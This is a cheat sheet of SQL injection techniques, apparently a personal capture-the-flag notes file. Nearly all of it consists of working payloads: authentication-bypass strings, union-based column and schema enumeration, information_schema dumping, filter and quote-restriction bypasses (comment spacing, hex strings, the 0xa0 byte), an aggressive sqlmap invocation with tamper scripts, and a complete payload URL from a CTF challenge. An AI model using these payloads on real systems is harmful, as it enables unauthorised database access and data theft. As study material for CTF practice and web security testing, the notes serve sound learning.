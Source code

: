 = SQL injection

== Basic tips

use

    ' OR 1

instead of

    ' OR 1=1 --

Because the query can stay semantically correct. Use in both user and pass
fields. Via Unikoder

Union-based tips

* add colums until query passes

  union select 1 -- fail
  union select 1,2 -- fail
  union select 1,2,3 -- fail
  union select 1,2,3,4 -- success!

* get information out of it

  union select username,2,3,4 -- fail
  union select 1,username,3,4 -- success!
  ...

Information schema grinding tips

* leverage group_concat (COALESCE in postgresql)
  * databases

    union select 1,group_concat(TABLE_SCHEMA),3,4 FROM information_schema.tables (GROUP BY ...)

  * tables
  
    union select 1,group_concat(TABLE_NAME),3,4 FROM information_schema.tables (GROUP BY ...)

== Restrictions bypass

=== No spaces allowed

Use comments: '/**/OR/**/'admin'/**/OR/**/'

=== Single quotes stripped

Use \ to prevent quote from closing and hope to control later

== sqlmap

python sqlmap.py -v 5 --time-sec=15 --dbms=PostgreSQL -u "http://192.168.103.1:4574/?t=1" -p t --not-string="try to submit illegal characters" --level=5 --risk=3

--tamper=TAMPER     Use given script(s) for tampering injection data

with http://forkbombers.blogspot.ca/2013/05/sqlmaps-tamper-scripts.html


== SQLi collection

----
ip=\
id= OR 1 > 2 UNION SELECT group_concat(COLUMN_NAME) FROM INFORMATION_SCHEMA.columns WHere TABLE_NAME LIke CHar(102,108,97,103);#
http://blacklist.adctf2014.katsudon.org/search?ip=\&id=%20or%201%3E2%20UNION%20SELECT%20group_concat(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.columns%20WHere%20TABLE_NAME%20LIke%20CHar(102,%20108,%2097,%20103);%23
----

== OWASP Track

    notexists') UNION SELECT 'yolo' # 

== MySQL

=== Avoid quoting restrictions

For MySQL, to avoid quotes you can hex-encode strings and prefix with 0x.
For example admin is 0x61646d696e so:

    user=0x61646d696e

is valid SQL.

=== Filter bypass

For MySQL the byte `0xa0`, a non-breaking space in ISO 8859-1 and apparently
not matched by a `\s` regex, will be considered a valid space.
